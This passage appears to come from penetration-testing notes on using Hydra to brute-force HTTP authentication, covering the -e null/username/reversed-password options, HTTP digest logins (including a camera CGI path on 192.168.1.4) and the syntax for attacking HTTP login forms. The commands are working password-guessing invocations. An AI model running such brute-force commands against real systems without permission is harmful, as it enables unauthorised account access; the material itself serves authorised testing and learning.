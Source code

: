 We can add with -e combinations to the already existing combinations provided 
from the users and password files in particular we can use `n` or `s` or `r` 
or all the combinations of them, their meaning is:

* `n` adds for each user also the null password
* `s` adds the combination of credentials username/username for each of the
    usernames
* `r` adds for each combination username/password also the reversed
    password/username

```sh
hydra -L users.txt -P words.txt www.site.com -e ns http-head /private/
# here we do the same thing as before, but we add combinations with
# `-e ns`, so we are also trying with an empty password for each
# of the users and with passwords equal to the username for each user
```


### HTTP Digest Authentication

```sh
hydra -l root -P test.txt -vV localhost http-get /forbidden-d2
# uses the username root with passwords from the file called test.txt
# it runs in verbose mode on localhost through http-get module we specify
# that this is an HTTP digest authentication found at path /forbidden-d2
```

```sh
hydra -l admin -P 1000_common_passwords.txt -s 8090 -f 192.168.1.4 http-get /get_camera_params.cgi
# uses the username admin with passwords from the file called
# 1000_common_passwords.txt it runs on port 8090 through 
# the -f flag it will stop as soon as it finds the first valid credentials
# the http-get module is specified to denote the presence of an HTTP digest
# authentication at the path /get_camera_params.cgi
```


### HTTP Forms

When it comes to HTTP login forms, we generally have to inspect the web
application, searching for messages which will appear on successful or failed
logins.

Generally for HTTP forms we will have hydra commands with the following
structure:

```sh
hydra -L <users_file> -P <password_file> <url> http[s]-[post|get]-form \
"index.php:param1=value1&param2=value2&user=^USER^&pwd=^PASS^&paramn=valn:[F|S]=messageshowed"
```

Where depending on the webpage and on the post we can have after url:
* http-get-form, in case of an http page with a get form
* https-get-form, in case of an https page with a get form
* http-post-form, in case of an http page with a post form
* https-post-form, in case of an https page with a post form
